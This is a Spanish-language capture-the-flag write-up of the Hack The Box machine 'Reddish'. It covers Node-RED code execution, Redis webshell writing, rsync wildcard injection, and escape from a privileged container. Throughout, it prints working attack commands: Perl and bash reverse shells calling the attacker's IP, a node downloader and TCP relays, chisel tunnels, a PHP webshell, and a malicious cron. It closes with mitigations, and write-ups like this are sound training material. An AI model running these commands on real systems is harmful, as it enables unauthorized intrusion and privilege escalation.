# Reddish

[{ .maquina-icono }](https://app.hackthebox.com/machines/Reddish)

> **Dificultad:** Insane (retirada) · **SO:** Linux · **Autor:** HTB
> **Tags:** #pivoting #docker #node-red #redis #rsync #wildcard-injection #container-escape

## ***Resumen***

Reddish es una máquina de **pivoting multi-contenedor**. Solo el contenedor `nodered` tiene salida hacia el atacante; el resto de la red interna se alcanza túnelando a través de él. La cadena pasa por cuatro contenedores Docker hasta montar el disco del host real desde un contenedor privilegiado.

---

## ***Topología***

```
Kali (10.10.14.x / tun0)
   │  (solo puerto 1880 expuesto)
   ▼
nodered   172.18.0.2 (externa)  +  172.19.0.4 (internal-network)
   ├── redis   172.19.0.2:6379
   ├── www     172.19.0.3:80   +  172.20.0.3 (internal-network-2)
   │      └── backup  172.20.0.2:873 (rsync)  ← privileged: true
   └── host reddish  (disco /dev/sda2 = root.txt)
```

| Host | IP(s) | Servicio | Rol |
|------|-------|----------|-----|
| nodered | 172.19.0.4 | 1880 (Node-RED) | Pivote / único con salida |
| redis | 172.19.0.2 | 6379 | Escritura arbitraria de ficheros |
| www | 172.19.0.3 / 172.20.0.3 | 80 (Apache+PHP) | Webshell + puente a red 2 |
| backup | 172.20.0.2 | 873 (rsync) | `privileged:true` → escape al host |

---

## ***1. Reconocimiento***

```bash
nmap -p- --open -T4 --min-rate 5000 10.10.10.94 -oN ports.txt
nmap -p 1880 -sVC 10.10.10.94 -oN targeted.txt
```

**Resultado:** un único puerto abierto, `1880/tcp` → **Node.js Express** (Node-RED).

---

## ***2. Foothold: Node-RED***

Un `GET /` devuelve error, pero un `POST /` revela un path dinámico:

```bash
curl -X POST http://10.10.10.94:1880/
# {"id":"1a9aa94884665f3d74bfb3e8e4528494","ip":"...","path":"/red/{id}"}
```



Accediendo a `http://10.10.10.94:1880/red/<id>` se abre el **editor de flujos** de Node-RED.



**Flujo para RCE:** un nodo `tcp in` → `exec` → `tcp out`. El comando se hardcodea en el nodo `exec` (el payload no se puede pasar por el stream porque Node-RED antepone `[object Object]`):

```perl
perl -e 'use Socket;$i="10.10.14.x";$p=5001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));connect(S,sockaddr_in($p,inet_aton($i)));open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");'
```

```bash
nc -lvnp 5001   # → root@nodered
```



> **Nota:** se cae como `root` dentro del contenedor nodered, pero es un contenedor sin privilegios.

---

## ***3. Pivoting con Chisel (SOCKS reverso)***

Solo el puerto 1880 está expuesto, así que **Kali es el server** y nodered el client (reverse):

**Transferencia del binario** (nodered solo tiene `node` y `perl`, no curl/wget/nc; el método con `/dev/tcp` corrompe binarios → usar `node`):

```bash
# Kali
base64 ... / python3 -m http.server 8080
# nodered (node como descargador fiable)
node -e 'var http=require("http"),fs=require("fs");http.get("http://10.10.14.x:8080/chisel",function(r){r.pipe(fs.createWriteStream("/node-red/chisel"))});'
md5sum /node-red/chisel   # verificar que coincide con Kali
```



**Levantar el túnel:**

```bash
# Kali (server)
./chisel server -p 1234 --reverse --socks5
# nodered (client) — /tmp con noexec, usar /node-red
/node-red/chisel client 10.10.14.x:1234 R:socks &
```



**proxychains:**
```
socks5 127.0.0.1 1080
```

---

## ***4. Enumeración de la red interna***

El ping sweep se hace **desde nodered** (local, instantáneo), no por proxychains:

```bash
for i in $(seq 1 254); do (ping -c1 -W1 172.19.0.$i >/dev/null 2>&1 && echo "172.19.0.$i UP" &); done; wait
```



Escaneo de puertos también desde nodered con `/dev/tcp` + `timeout` (más fiable que `nmap -sT` por SOCKS, que marca todo `filtered`):

```bash
for ip in 1 2 3; do for p in 22 80 443 873 3306 5432 6379 8080; do timeout 1 bash -c "echo >/dev/tcp/172.19.0.$ip/$p" 2>/dev/null && echo "172.19.0.$ip:$p ABIERTO"; done; done
```



| Host | Puerto | Servicio |
|------|--------|----------|
| 172.19.0.2 | 6379 | Redis |
| 172.19.0.3 | 80 | www (Apache+PHP) |

> **Por qué `-sT -Pn` y no `-sS`:** por proxychains solo se tuneliza `connect()` (TCP connect); `-sS` fabrica paquetes raw que no pasan por `connect()`. Además, en un contenedor sin `CAP_NET_ADMIN` tampoco se puede hacer SYN scan. `-Pn` es obligatorio porque el ping de descubrimiento es ICMP raw y no se tuneliza.

---

## ***5. Redis → Webshell en www***

Redis (NoSQL clave-valor) permite escribir ficheros arbitrarios con `config set dir` + `dbfilename` + `save`. El `index.html` de www revela el hash de la app y confirma el **volumen compartido** entre redis y www:

```javascript
url: "8924d0549008565c554f8128cd11fda4/ajax.php?test=..."
/* 1. Share the web folder with the database container (Done)
   2. Add here the code to backup databases in /f187a0ec71ce99642e4f0afbd441a68b folder */
```

**Clave:** la carpeta de la app `8924...` NO es escribible por redis; la carpeta de backups `f187...` sí (world-writable). Todo en **una sola sesión interactiva** (comandos sueltos por proxychains fallan):

```bash
proxychains -q redis-cli -h 172.19.0.2
```
```
flushall
config set dir /var/www/html/f187a0ec71ce99642e4f0afbd441a68b/
config set dbfilename shell.php
set pwn "<?php system($_REQUEST['cmd']); ?>"
save
```



Verificación del volumen compartido con un `.txt` de prueba (`200 OK` = redis escribe donde www lee):



**RCE confirmado** (la basura binaria del `.rdb` se filtra con `strings`):

```bash
proxychains -q curl -s "http://172.19.0.3/f187a0ec71ce99642e4f0afbd441a68b/shell.php?cmd=id" | strings
# ...pwn"uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



> **Nota:** el webshell es **efímero** — un cron de rsync restaura `/var/www/html` cada 3 min y lo borra.

---

## ***6. Webshell → Reverse shell (www-data)***

www no alcanza Kali directamente → **relay en nodered** (node hace de socat):

```bash
# nodered: relay 9002 → Kali
setsid node -e 'require("net").createServer(c=>{var s=require("net").connect(9002,"10.10.14.x");c.pipe(s);s.pipe(c)}).listen(9002)' 2>/dev/null &
# Kali
nc -lvnp 9002
# Reescribir shell (heredoc) + disparar reverse vía POST
proxychains -q curl -s "http://172.19.0.3/f187a0ec71ce99642e4f0afbd441a68b/shell.php" --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/172.19.0.4/9002 0>&1'"
```

```
www → nodered:9002 → (relay node) → Kali:9002
```



---

## ***7. Privesc www-data → root@www (rsync wildcard injection)***

El cron `*/3 * * * * root sh /backup/backup.sh` ejecuta:

```bash
cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
rsync -a *.rdb rsync://backup:873/src/rdb/   # ← wildcard vulnerable
cd / && rm -rf /var/www/html/*
rsync -a rsync://backup:873/src/backup/ /var/www/html/
chown www-data. /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
```



**Wildcard injection:** rsync tiene la opción `-e <cmd>` (shell remota) que ejecuta. Si un fichero se llama `-e sh shell.rdb`, al expandir `*.rdb` rsync lo interpreta como `-e sh shell.rdb` → ejecuta `sh shell.rdb` **como root**.

```bash
cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
echo 'bash -c "bash -i >& /dev/tcp/172.19.0.4/9003 0>&1"' > shell.rdb
touch -- '-e sh shell.rdb'
```



Con otro relay en nodered (9003) y `nc -lvnp 9003`, al disparar el cron cae **root@www**:



> **Tip:** no te quedes con `cd` dentro de `f187...`; el `rm -rf` del cron borra la carpeta y tu shell pierde el `cwd` (`getcwd() error`). Trabaja desde `/tmp`.

---

## ***8. root@www → backup → Host (container escape)***

www es el puente entre las dos redes internas:



El módulo rsync `src` de backup **no es una carpeta de backups: es el `/` completo del contenedor backup** con escritura, y su `/dev` lleno de dispositivos confirma `privileged:true`:

```bash
rsync rsync://172.20.0.2:873/src/
# .dockerenv  bin boot dev etc home lib root sbin usr var ...
```

backup corre un cron propio cada minuto (`/etc/cron.d/clean`: `* * * * * root rm -rf /rdb/*`) → **ejecución como root cada minuto**. Se planta un cron + script propios vía rsync:

```bash
# Script: monta el disco del host y copia root.txt a sitio world-readable
printf '#!/bin/bash\nmount /dev/sda2 /mnt\ncat /mnt/root/root.txt > /tmp/rootflag\nchmod 666 /tmp/rootflag\n' > /tmp/pwn.sh
echo '* * * * * root bash /tmp/pwn.sh' > /tmp/mycron
# Subir vía rsync (módulo escribible)
rsync /tmp/pwn.sh rsync://172.20.0.2:873/src/tmp/
rsync /tmp/mycron rsync://172.20.0.2:873/src/etc/cron.d/
```



Tras 1-2 min, descargar la flag:

```bash
rsync rsync://172.20.0.2:873/src/tmp/rootflag /tmp/rf; cat /tmp/rf
# [censurada]
```



> **Por qué funciona:** backup es `privileged`, así que su `/dev` contiene los discos del **host real**. Montando `/dev/sda2` se accede al filesystem del host → `root.txt`.

---

## ***9. Flags***

| Flag | Ubicación | Acceso |
|------|-----------|--------|
| user.txt | `/home/somaro/user.txt` (contenedor www) | root@www |
| root.txt | `/root/root.txt` (host, vía /dev/sda2) | backup privileged |



---

## ***Resumen de la cadena***

```
Node-RED (POST path → exec node)
  → reverse shell root@nodered
  → chisel SOCKS reverso (Kali=server)
  → enum interna (ping sweep + /dev/tcp desde nodered)
  → Redis: webshell PHP en volumen compartido (carpeta f187 writable)
  → relay node en nodered → reverse www-data
  → rsync wildcard injection (-e sh) → root@www
  → rsync a backup (módulo src = / writable) + cron propio
  → backup privileged: mount /dev/sda2 → root.txt
```

## ***Mitigación***

- **Node-RED expuesto:** nunca dejar el editor de Node-RED accesible sin autenticación. Protegerlo con credenciales (`adminAuth`), limitar el acceso por red y deshabilitar los nodos `exec` si no se usan.
- **Redis sin autenticación:** no exponer Redis sin `requirepass` ni, mucho menos, sobre un directorio compartido con el servidor web. Deshabilitar `CONFIG SET` para clientes y ejecutar Redis con un usuario sin permisos de escritura sobre el *web root*.
- **Rsync wildcard injection:** no usar comodines (`*`) sin protección en scripts que corren como root. Anteponer `--` o rutas explícitas (`./`), validar los nombres de fichero y evitar que un usuario sin privilegios controle el directorio de origen.
- **Contenedor privilegiado:** `privileged: true` da al contenedor acceso a los discos del host; es equivalente a root en la máquina. No usarlo salvo necesidad real, aplicar el mínimo de *capabilities* y nunca exponer un módulo rsync escribible sobre el `/` del contenedor.
- **Segmentación:** aunque el diseño multi-red es correcto, un contenedor comprometido no debería poder pivotar tan libremente; revisar qué servicios internos quedan alcanzables desde cada red.

## ***Lecciones clave (OSCP)***

- **Binarios estáticos** para subir a contenedores; adaptar flags de nmap a las capabilities (`-sT -Pn` sin `CAP_NET_ADMIN`).
- **proxychains solo tuneliza `connect()`** → nada de `-sS`/`-O`/ping.
- **Redis** = escritura arbitraria de ficheros si conoces el web root (y sus permisos).
- **rsync wildcard injection** (`-e sh`): nombres de fichero como opciones.
- **Contenedor privilegiado** = acceso a los discos del host (`/dev/sda*`) → escape montando el filesystem.

## ***Lo que me costó / Lo que aprendí***

Reddish es la máquina más larga que he hecho y lo que más me costó fue **no perderme en el pivoting**: con cuatro contenedores y dos redes internas es muy fácil olvidar desde dónde estás lanzando cada cosa. Lo que me ordenó la cabeza fue dibujar la **topología** al principio y tener claro que `nodered` era el único con salida, así que todo pasaba por ahí (chisel para el SOCKS y relays de `node` para las reverse shells de los contenedores de más adentro).

Los tropiezos concretos me enseñaron detalles que no se me olvidan: que **proxychains solo tuneliza `connect()`**, así que el `nmap -sS` no sirve y hay que escanear con `/dev/tcp` desde dentro; que el **webshell de Redis era efímero** (un cron lo borraba cada 3 minutos) y había que encadenarlo rápido; y que al disparar el cron del `rm -rf` perdía el `cwd` y la shell daba `getcwd() error` si no trabajaba desde `/tmp`. La idea bonita del final es el **contenedor privilegiado**: entender que `privileged:true` significa que su `/dev` tiene los discos del host real, y que montar `/dev/sda2` es salir del contenedor y leer el `root.txt` de la máquina de verdad.
